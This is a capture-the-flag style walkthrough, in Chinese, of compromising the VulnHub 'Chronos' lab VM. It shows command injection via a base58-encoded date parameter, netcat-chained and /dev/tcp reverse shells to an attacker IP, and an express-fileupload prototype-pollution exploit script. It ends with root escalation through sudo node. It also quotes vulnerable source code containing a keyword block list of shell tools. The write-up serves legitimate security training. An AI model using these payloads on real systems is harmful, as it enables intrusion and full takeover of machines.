





netdiscover | nmap | TxPortMap | 本地域名绑定| CyberChef Magic | nc串联 | nodejs代码审计 | express fileupload原型链污染漏洞 | sudo node shell提权

<!-- more -->

靶机地址：https://www.vulnhub.com/entry/chronos-1,735/


## 1. 主机发现

使用netdiscover通过arp地址进行主机发现

```shell
netdiscover -r 172.16.42.0/16
```

`使用经验，如果实际网段是24位减8，16也减8，这样速率高一些，效果好一些`


扫描结果

```shell
172.16.42.203   08:00:27:68:58:18     24    1440  PCS Systemtechnik GmbH
 172.16.42.1     00:50:56:c0:00:08      1      60  VMware, Inc.
 172.16.42.254   00:50:56:fd:c7:e1      1      60  VMware, Inc
```

明显172.16.42.203就是目标靶机，


## 2. 端口扫描

### nmap

全端口扫描

```shell
nmap -p- 172.16.42.203
```

服务识别

```
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
8000/tcp open  http    Node.js Express framework
```


### TxPortMap

```
./TxPortMap_linux_x64 -i 172.16.42.203 -p 1-65535
```


```shell
[root@kali TxPortMap]# ./TxPortMap_linux_x64 -i 172.16.42.203 1-65535
172.16.42.203:22     ssh | SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.5
172.16.42.203:80     http | [200] [Apache/2.4.29 (Ubuntu)]
172.16.42.203:8000   http | [200] [Express]
```


## 3. web入侵

访问 http://172.16.42.203/

查看源码，发现一段js的代码，将其复制到CyberChef将其美化




发现一段url : http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL

该url对应8000端口，对应的我们之前扫的端口8000也是开放的，所有，有理由相信chronos.local就是172.16.42.203的域名。


### 本地域名绑定

sudo vim /etc/hosts

 

这时候ping一下域名

```shell
[shadowflow@ShadowOS ~]$ ping chronos.local
PING chronos.local (172.16.42.203): 56 data bytes
64 bytes from 172.16.42.203: icmp_seq=0 ttl=64 time=0.530 ms
64 bytes from 172.16.42.203: icmp_seq=1 ttl=64 time=0.257 ms
64 bytes from 172.16.42.203: icmp_seq=2 ttl=64 time=0.423 ms
64 bytes from 172.16.42.203: icmp_seq=3 ttl=64 time=0.367 m
```

成功ping通，

再次访问url，发现成功加载了上诉url内容。


### CyberChef Magic

burp访问 http://chronos.local:8000/date?format=4ugYDuAkScCG5gMcZjEN3mALyG1dD5ZYsiCfWvQ2w9anYGyL，返回日期，修改编码，发现不会返回日期，使用CyberChef 的Magic功能识别一下

 

magic判读是对`'+Today is %A, %B %d, %Y %H:%M:%S.'`进行base58编码得到。


### 命令执行

`'+Today is %A, %B %d, %Y %H:%M:%S.' `这段格式有点像linux的date命令，

```shell
[root@kali ~]# date
Tue Nov  8 02:43:18 AM EST 2022
[root@kali ~]# date '+Today is %A, %B %d, %Y %H:%M:%S.'
Today is Tuesday, November 08, 2022 02:43:22.
```

猜测用命令拼接

```
date '+Today is %A, %B %d, %Y %H:%M:%S.' && ls
```


 


 

成功执行了命令


### nc bash反弹

查看bin目录有没有nc

```
&&ls /bin
VAZYW9RHPu6D

```

目标存在

使用nc连接

```
&&nc 10.0.0.27 4444
```

连接成功，接下来反弹shell

```
&&nc 172.16.42.147 4444 -e /bin/bash
```

发现不成功，那么nc没有-e命令


###  nc串联

```
&&nc 172.16.42.147 4444 | /bin/bash | nc 172.16.42.147 5555
```

kali监听两个端口

```
nc -nvlp 4444
nc -nvlp 5555
```

将上诉命令编码后发送，我们就可以在4444端口执行命令，在5555端口查看结果


## 4. 尝试提权


cat /etc/passwd，发现如下账号

```
imera:x:1000:1000:imera:/home/imera:/bin/bash
```

进入 /home/imera，发现user.txt，

尝试读取不成功，查看权限

```
-rw------- 1 imera imera 37 Aug  3  2021 user.txt
```

尝试suid提权，没有发现可利用的

```
find / -perm -u=s -type f 2>/dev/null 
```

尝试sudo提权，无可利用

```
sudo -l
```


## 5. nodejs代码审计


进入/opt/chronos目录，查看代码


package.json

```json
{
  "dependencies": {
    "bs58": "^4.0.1",
    "cors": "^2.8.5",
    "express": "^4.17.1"
  }
}
```


app.js

```javascript
const express = require('express');
const { exec } = require("child_process");
const bs58 = require('bs58');
const app = express();

const port = 8000;

const cors = require('cors');


app.use(cors());

app.get('/', (req,res) =>{

    res.sendFile("/var/www/html/index.html");
});

app.get('/date', (req, res) => {

    var agent = req.headers['user-agent'];
    var cmd = 'date ';
    const format = req.query.format;
    const bytes = bs58.decode(format);
    var decoded = bytes.toString();
    var concat = cmd.concat(decoded);
    if (agent === 'Chronos') {
        if (concat.includes('id') || concat.includes('whoami') || concat.includes('python') || concat.includes('nc') || concat.includes('bash') || concat.includes('php') || concat.includes('which') || concat.includes('socat')) {

            res.send("Something went wrong");
        }
        exec(concat, (error, stdout, stderr) => {
            if (error) {
                console.log(`error: ${error.message}`);
                return;
            }
            if (stderr) {
                console.log(`stderr: ${stderr}`);
                return;
            }
            res.send(stdout);
        });
    }
    else{

        res.send("Permission Denied");
    }
})

app.listen(port,() => {

    console.log(`Server running at ${port}`);

})
```


进入/opt/chronos-v2/backend

server.js

```javascript
const express = require('express');
const fileupload = require("express-fileupload");
const http = require('http')

const app = express();

app.use(fileupload({ parseNested: true }));

app.set('view engine', 'ejs');
app.set('views', "/opt/chronos-v2/frontend/pages");

app.get('/', (req, res) => {
   res.render('index')
});

const server = http.Server(app);
const addr = "127.0.0.1"
const port = 8080;
server.listen(port, addr, () => {
   console.log('Server listening on ' + addr + ' port ' + port);
});
```


## 6. express fileupload原型链污染漏洞

参考：

```
https://www.bleepingcomputer.com/news/security/nodejs-module-downloaded-7m-times-lets-hackers-inject-code/

#原作者
https://blog.p6.is/Real-World-JS-1/
```


要利用这个漏洞服务端需要开启processNested，

```
So, if options.parseNested has a value. If calls processNested Function, and argument will be req.body and req.files.
```

很明显，server.js开启了

```
app.use(fileupload({ parseNested: true }));
```


### 利用

kali监听6666，

- exp.py

```python
import requests

cmd = 'bash -c "bash -i &> /dev/tcp/172.16.42.147/6666 0>&1"'

# pollute
requests.post('http://127.0.0.1:8080', files = {'__proto__.outputFunctionName': (
    None, f"x;console.log(1);process.mainModule.require('child_process').exec('{cmd}');x")})

# execute command
requests.get('http://127.0.0.1:8080')
```

保存在kali, 使用python监听81端口，在目标机上下载执行。

进入靶机的tmp目录下载，执行exp.py

```
python3 exp.py
```

反弹shell成功

```shell
[root@kali /tmp]# nc -nvlp 6666
listening on [any] 6666 ...
connect to [172.16.42.147] from (UNKNOWN) [172.16.42.203] 59730
bash: cannot set terminal process group (764): Inappropriate ioctl for device
bash: no job control in this shell
imera@chronos:/opt/chronos-v2/backend$
```

获取第一个flag

```shell
imera@chronos:/opt/chronos-v2/backend$ cd /home/imera
cd /home/imera
imera@chronos:~$ ls
ls
user.txt
imera@chronos:~$ cat user.txt
cat user.txt
byBjaHJvbm9zIHBlcm5hZWkgZmlsZSBtb3UK
```


## 7. sudo提权

尝试进入root目录失败

```
imera@chronos:~$ cd /root
cd /root
bash: cd: /root: Permission denied
```


执行`sudo -l`

```
imera@chronos:~$ sudo -l
sudo -l
Matching Defaults entries for imera on chronos:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User imera may run the following commands on chronos:
    (ALL) NOPASSWD: /usr/local/bin/npm *
    (ALL) NOPASSWD: /usr/local/bin/node *
```

发现可以执行`npm`，`node`，那么我们可以利用Node shell提权。

执行如下命令

```shell
sudo node -e 'child_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

成功提权

```shell
imera@chronos:~$ sudo node -e 'child_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
<ild_process.spawn("/bin/bash", {stdio: [0, 1, 2]})'
id
uid=0(root) gid=0(root) groups=0(root)
```

获取到第二个flag
```shell
cd /root
ls
root.txt
cat root.txt
YXBvcHNlIHNpb3BpIG1hemV1b3VtZSBvbmVpcmEK
```


